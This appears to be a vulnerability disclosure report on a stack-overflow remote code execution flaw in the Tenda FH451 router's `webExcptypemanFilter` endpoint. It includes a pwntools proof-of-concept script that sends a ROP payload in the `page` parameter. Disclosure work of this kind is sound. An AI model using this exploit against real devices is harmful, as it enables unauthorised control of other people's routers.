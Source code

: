 # Shenzhen Jixiang Tengda Technology Co., Ltd. FH451 has a Remote Code Execution vulnerability

**Vulnerability URL**: [http://192.168.100.157:80/goform/webExcptypemanFilter](http://192.168.100.157:80/goform/webExcptypemanFilter)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/101629](https://www.tenda.com.cn/material/show/101629)

## Vulnerability Analysis
The vulnerability occurs in the `webExcptypemanFilter` function.
![Image 1](https://github.com/xubeining/Cve_report/blob/main/FH451.png)
![Image 1](https://github.com/xubeining/Cve_report/blob/main/FH451_2.png)

The program retrieves the user input parameter `page` but does not perform any size check. When the parameter value is excessively large, it causes a stack overflow, which can lead to a program crash or potential exploitation.  
Cross-referenced location: from the `fromwebExcptypemanFilter` function, routed to `webExcptypemanFilter`, at line 99.

![Image 1](https://github.com/xubeining/Cve_report/blob/main/FH451_3.png)
Further cross-referenced to the `sub_64EAC` function, with attention to lines 44 and 47.
![Image 1](https://github.com/xubeining/Cve_report/blob/main/FH451_4.png)
It can be determined that the vulnerability occurs at the page path `goform/webExcptypemanFilter`.

```python
import requests
from pwn import *

addr = 0x0064920
libc = ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]
base = 0xf6636000
system_addr = base + system_offset
cmd = b"RCERCERCERCERCERCERCERCE\nRCERCERCERCERCERCERCE\x00"
puts = base + libc.sym['puts']

move_r0 = base + 0x00040cb8
r3_pop = base + 0x00018298

url = "http://192.168.100.166:83/goform/webExcptypemanFilter"
payload = {
    'page': cyclic(97) + p32(r3_pop) + p32(puts) + p32(move_r0) + cmd
}

res = requests.post(url=url, data=payload)
```

# reproduce
![Image 1](https://github.com/xubeining/Cve_report/blob/main/FH451_5.png)
![Image 1](https://github.com/xubeining/Cve_report/blob/main/FH451_6.png)
![Image 1](https://github.com/xubeining/Cve_report/blob/main/FH451_7.png)
![Image 1](https://github.com/xubeining/Cve_report/blob/main/FH451_8.png)
![Image 1](https://github.com/xubeining/Cve_report/blob/main/FH451_9.png)
![Image 1](https://github.com/xubeining/Cve_report/blob/main/FH451_10.png)
